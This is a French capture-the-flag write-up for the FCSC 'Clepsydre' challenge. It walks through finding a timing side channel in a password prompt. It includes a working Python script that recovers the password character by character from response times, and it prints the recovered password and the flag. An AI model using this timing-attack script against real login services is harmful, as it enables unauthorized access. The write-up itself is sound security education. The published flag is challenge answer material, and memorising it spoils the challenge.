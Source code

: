# Clepsydre

Points : 173 (Dynamique)

```
À l'origine, la clepsydre est un instrument à eau qui permet de
définir la durée d'un évènement, la durée d'un discours par
exemple. On contraint la durée de l’évènement au temps de
vidage d'une cuve contenant de l'eau qui s'écoule par un petit
orifice. Dans l'exemple du discours, l'orateur doit s'arrêter
quand le récipient est vide. La durée visualisée par ce moyen
est indépendante d'un débit régulier du liquide ; le récipient
peut avoir n'importe quelle forme. L'instrument n'est donc pas
une horloge hydraulique (Wikipedia).

Service : nc challenges2.france-cybersecurity-challenge.fr 6006
```

## Analyse

Au début, je pensais à une sorte d'énigme. Alors, j'ai cherché et regardé ce qu'était un Clespydre sur wikipedia.

Suite à cela, je me suis connecté au challenge où une petite citation est affichée.

```
[Citation du jour] : "Tout vient à point à qui sait attendre".

Entrez votre mot de passe :
```

Décidemment, ça fait beaucoup d'allusion au mot TEMPS pour ne pas qu'il y ait un rapport.

## Résolution ?

J'ai donc dans un premier temps, essayé de me connecter et d'attendre en espérant que le flag apparaisse...

Ca n'as pas fonctionné. Cela dit ça aurait été beau.

Je me suis ensuite fait une liste de synonyme du mot temps, que j'ai rentrée avec et sans majuscule à la première lettre de chaque mot.

ET bizarrement le mot de passe ```Temps``` m'était beaucoup plus de TEMPS à être traité que les autres.

J'ai essayé seulement avec la lettre ```T``` pareil. Je dois donc avoir affaire à un ```Service - Timming attack```.

## Récupération du mot de passe

J'ai commencé à faire un programme qui récupérera le premier message puis enregistrera une première fois le temps actuel.

Il lancera la requête et récupèrera à nouveau le message envoyé par le serveur.

Ensuite, il pourra calculer le temps de réponse qu'il mettra dans une liste et un dictionnaire avec le carcatère associé.

Une fois tous les caractères testés, il m'affichera celui qui aura mis le plus de temps à répondre.

*Dans ce genre de challenge, je conseille de lancer le script en double et de vérifier que les valeurs renvoyées soient les mêmes. Ca évite de faire tourner le programme pour rien alors qu'un caractère n'est pas bon*

Voici le code :

```python
#!/usr/bin/python3

import string
import socket
import time
import sys

#CHAR IN KEY
CHAR = string.printable[:95]
#HOST INFORMATION
HOST = "challenges2.france-cybersecurity-challenge.fr"
PORT = 6006

#function exploit
def exploit(key):
    #Var for the time
    dict_time = dict()
    list_time = list()

    #loop in all char
    for number in CHAR:
        #get the flag
        msg = key + number + "\n"
        #Create TCP connection
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(20)
        #Connect to the server
        s.connect((HOST, PORT))
        #Recv data
        s.recv(1024)
        #encode it
        msg = msg.encode()
        #get the time
        time_stamp = time.time()
        #send it
        s.send(msg)
        #Get the response
        try:
            res = s.recv(1024)
        except socket.timeout:
            continue
        if "FCSC" in res.decode():
            print("[+] Flag ? : {0}".format(msg))
            print(res.decode())
            sys.exit(0)
        #get the total time
        time_stamp = time.time() - time_stamp
        #add the time to dict
        dict_time[time_stamp] = number
        #add the time to list
        list_time.append(time_stamp)
        #Close the connection
        s.close()


    #Get the max time of list_time
    #print(list_time)
    _max = max(list_time)
    #Get the char corresponding of the max time
    value = dict_time[_max]
    #return them
    return value

if __name__ == "__main__":
    #r is the key
    r = str()
    while True:
        #Get the all key
        r += exploit(r)
        print("Key : " + r)
```

output :

```
[+] Key : T
[+] Key : T3
[+] Key : T3m
[+] Key : T3mp
[+] Key : T3mp#
[+] Flag ? : b'T3mp#!\n'


Félicitations vous avez su vaincre votre impatience : 

FCSC{6bdd5f185a5fda5ae37245d355f757eb0bbe888eea004cda16cf79b2c0d60d32}
```

flag : ```FCSC{6bdd5f185a5fda5ae37245d355f757eb0bbe888eea004cda16cf79b2c0d60d32}```
